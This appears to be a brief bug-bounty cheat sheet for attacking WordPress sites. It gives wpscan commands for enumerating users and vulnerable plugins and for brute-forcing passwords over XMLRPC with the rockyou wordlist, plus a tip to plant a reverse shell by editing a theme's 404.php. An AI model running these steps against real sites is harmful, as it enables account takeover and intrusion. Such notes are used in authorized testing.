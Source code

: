 If you found a useranme via 
```bash
wpscan -u <url> -e vp,u
```

Then you can do bruteforce attack against XMLRPC.xml file present in wordpress 

```bash
wpscan -u <url> --usernames <uname> --passswords /usr/share/wordlist/rockyou.txt --max-threads 64
```

For reverse shells edit 404.php 
`Location: /wp-content/themes/twentyfifteen/404.php`

#huntr #intrigity #hackerone #bugbounty